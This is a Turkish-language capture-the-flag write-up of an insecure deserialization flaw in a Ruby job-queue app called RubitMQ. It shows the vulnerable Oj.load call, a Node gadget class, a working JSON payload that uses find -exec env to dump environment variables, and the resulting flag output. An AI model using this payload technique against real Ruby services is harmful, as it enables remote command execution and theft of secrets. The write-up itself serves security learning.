


# 💉 Dojo #48 — RubitMQ: Insecure Deserialization → RCE

> [!abstract] TL;DR
> **RubitMQ** uygulamasında, Ruby `Oj` (Optimized JSON) kütüphanesi kullanıcı kontrollü veriyi güvensiz şekilde deserialize etmektedir. JSON payload'ındaki `^o` anahtarı ile ==rastgele Ruby nesneleri== oluşturulabilmekte, `Node` sınıfının `run_find` metodu aracılığıyla `find -exec` komutu manipüle edilerek sunucuda ==Remote Code Execution (RCE)== elde edilmiştir.
> Sonuç: Ortam değişkenlerindeki flag okunmuştur.

| Alan | Detay |
| :--- | :--- |
| **Zafiyet Türü** | Insecure Deserialization → Remote Code Execution (RCE) |
| **Hedef** | RubitMQ — Ruby JSON Job Queue Servisi |
| **Durum** | ✅ Accepted → ✅ Resolved |
| **Gönderim** | 2026-01-30 |
| **Flag** | `FLAG{Th4t_J0b_D1d_N07_Go_A5_Exp3ct3d}` |

---

## 🎯 Uygulama Analizi

RubitMQ, JSON tabanlı job'ları bir kuyrukta saklayan ve sırasıyla `find` komutuyla çalıştıran bir Ruby web uygulamasıdır.



---

## 🐛 Zafiyet Zinciri

### 1. Güvensiz Deserialization (`Oj.load`)

> [!danger] Kök Neden
> `JobRunner` sınıfında `Oj.load(job.payload)` çağrısı herhangi bir mod kısıtlaması olmadan yapılır. Varsayılan modda Oj, JSON'daki `^o` anahtarını **Ruby nesne oluşturma talimatı** olarak yorumlar.
> ```ruby
> # Zafiyetli kod:
> data = Oj.load(job.payload)   # ← mod belirtilmemiş!
> ```

### 2. Gadget Sınıfı: `Node`

> [!bug] Exploit Edilebilir Sınıf
> Uygulama kodunda tanımlı `Node` sınıfı:
> - `initialize` metodunda `@args` instance değişkenini kullanıcıdan alır
> - `run_find` metodunda bu değerleri doğrudan shell komutuna aktarır:
> ```ruby
> class Node
>   def initialize(args)
>     @args = args
>   end
>   
>   def run_find
>     Open3.capture3("find", *@args)  # ← @args kontrol edilmiyor!
>   end
> end
> ```

### 3. Tetikleme Mekanizması

> [!info] Çalışma Akışı
> `RubitMQ#run` metodu, deserialize edilen nesnenin `run_find` metoduna sahip olup olmadığını kontrol eder (`respond_to?(:run_find)`). Eğer varsa, ==otomatik olarak çalıştırır==.

---

## ⚔️ Exploit Zinciri



Payload'ın shell'de genişlediği komut:

```bash
find . -name index.html -exec env ;
```

> [!tip] `-exec` Nedir?
> `find` komutunun `-exec` flag'i, bulunan her dosya için belirtilen komutu çalıştırır. Burada `env` komutu ile sunucunun ==tüm ortam değişkenleri== (flag dahil) okunur.

---

## ⚔️ PoC (Proof of Concept)

### Payload

```json
{"^o":"Node","args":[".","-name","index.html","-exec","env",";"]}
```

> [!example]- Payload Anatomisi
> | Anahtar | Değer | Açıklama |
> | :--- | :--- | :--- |
> | `"^o"` | `"Node"` | Oj'a `Node` sınıfından bir nesne oluşturmasını söyler |
> | `"args"` | `[...]` | `@args` instance değişkenine atanacak dizi |
> | `"."` | — | `find` başlangıç dizini |
> | `"-name"` | `"index.html"` | Arama filtresi (herhangi bir dosya olabilir) |
> | `"-exec"` | `"env"` | Bulunan dosya başına çalıştırılacak komut |
> | `";"` | — | `-exec` bloğunu sonlandırır |

> [!success] Sonuç
> Sunucu `env` komutunun çıktısını döndürür:
> ```
> LOGNAME=nobody
> FLAG=FLAG{Th4t_J0b_D1d_N07_Go_A5_Exp3ct3d}
> ```

---

## ⚠️ Risk Analizi

| Risk | Açıklama |
| :--- | :--- |
| **Remote Code Execution** | Kimlik doğrulaması gerekmeden sunucuda rastgele komut çalıştırılabilir |
| **Confidentiality Loss** | Hassas dosyalar, ortam değişkenleri ve veritabanı credential'ları okunabilir |
| **Integrity Violation** | Uygulama kaynak kodu değiştirilebilir, backdoor yerleştirilebilir |
| **Availability** | Sunucu çökertilip kritik dosyalar silinerek DoS yapılabilir |

---
